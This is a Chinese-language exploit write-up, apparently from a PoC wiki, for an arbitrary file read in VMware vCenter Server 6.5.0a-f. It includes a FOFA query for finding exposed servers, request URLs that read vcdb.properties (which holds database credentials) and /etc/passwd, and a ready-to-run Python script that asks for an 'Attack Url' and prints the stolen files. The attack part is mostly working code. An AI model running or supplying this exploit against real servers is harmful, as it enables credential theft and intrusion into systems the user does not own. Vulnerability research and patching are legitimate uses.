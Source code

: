 # VMware-vCenter任意文件读取漏洞

## 漏洞描述

VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件、

## 漏洞影响

> [!NOTE]
>
> VMware vCenter Server 6.5.0a- f 版本

## FOFA

> [!NOTE]
>
> title="ID_VC_Welcome"

## 漏洞复现

![](VMware-vCenter任意文件读取漏洞.assets/1627363570521206.jpg)

使用POC访问漏洞点

> [!NOTE]
>
> Windows主机

```
http://xxx.xxx.xxx.xxx/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

![](VMware-vCenter任意文件读取漏洞.assets/162736357072288.jpg)

> [!NOTE]
>
> Linux主机

```
https://xxx.xxx.xxx.xxx/eam/vib?id=/etc/passwd
```

![](VMware-vCenter任意文件读取漏洞.assets/1627363570938823.jpg)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: VMware-vCenter任意文件读取漏洞                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url_windows = target_url + "/eam/vib?id=C:\ProgramData\VMware\\vCenterServer\cfg\\vmware-vpx\\vcdb.properties"
    vuln_url_linux = target_url + "/eam/vib?id=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response_linux = requests.get(url=vuln_url_linux, headers=headers, verify=False, timeout=5)
        response_windows = requests.get(url=vuln_url_windows, headers=headers, verify=False, timeout=5)
        if "password" in response_windows.text and response_windows.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 vcdb.properties \033[0m".format(target_url))
            print("\033[32m[o] Windows系统, 响应为:\n{} \033[0m".format(response_windows.text))
        elif "root" in response_linux.text and response_linux.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] Linux系统, 响应为:\n{} \033[0m".format(response_linux.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](VMware-vCenter任意文件读取漏洞.assets/1627363571274739.jpg)